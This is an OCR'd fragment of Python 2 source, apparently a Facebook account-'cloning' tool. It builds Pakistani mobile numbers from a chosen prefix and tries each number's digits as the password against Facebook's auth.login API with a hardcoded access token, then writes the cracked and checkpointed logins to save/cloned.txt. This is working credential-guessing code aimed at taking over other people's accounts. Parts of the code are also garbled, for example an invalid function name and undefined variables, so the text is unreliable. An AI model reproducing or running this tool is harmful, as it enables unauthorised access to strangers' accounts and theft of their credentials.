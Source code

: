     time.sleep(0.05)
    action()
 
def action():
    peak = raw_input('\n\033[1;97m ══CHOOSE:\033[1;97m')
    if peak =='':
        print '[!] Fill In Correctly'
        action()
    elif peak =="1":              
        os.system("clear")
        print logo2
        print "\033[1;94mEnter any Pakistan Mobile code Number"+'\n'
        print '\033[1;92mEnter any code 01 02 03 04 05 06 07 08 10 11 12 13 14 15 16 20 21 22 23 24 30 31 32 33 34 35 36 40 41 42 43 44 45 46 47 48 49'
        for i in numm:
            print('x' * i)
        try:
            c = raw_input("\033[1;97mCHOOSE : ")
            k="03"
            idlist = ('.txt')
            for line in open(idlist,"r").readlines():
                id.append(line.strip())
        except IOError:
            print ("[!] File Not Found")
            raw_input("\n[ Back ]")
            YUB-RAJ()
    elif peak =='0':
        login()
    else:
        print '[!] Fill In Correctly'
        action()
    print 50* '\033[1;94m-'
    xxx = str(len(id))
    jalan ('\033[1;91m Total ids Accounts: '+xxx)
    jalan ('\033[1;92mSim code you choose: '+c)
    jalan ("\033[1;93mWait  Start Cracking...")
    jalan ("\033[1;94mTo Stop Process Press Ctrl+z")
    print 50* '\033[1;97m-'
    def main(arg):
        global cpb,oks
        user = arg
        try:
            os.mkdir('save')
        except OSError:
            pass
        try:
            pass1 = user
            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass1 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
            q = json.load(data)
            if 'access_token' in q:
                print '\x1b[1;32m[RK-OK]  ' + k + c + user + '  |  ' + pass1                                       
                okb = open('save/cloned.txt', 'a')
                okb.write(k+c+user+pass1+'\n')
                okb.close()
                oks.append(c+user+pass1)
            else:
                if 'www.facebook.com' in q['error_msg']:
                    print '\033[1;97m[RK-CP] ' + k + c + user + '  |  ' + pass1
                    cps = open('save/cloned.txt', 'a')
                    cps.write(k+c+user+pass1+'\n')
                    cps.close()
                    cpb.append(c+user+pass1)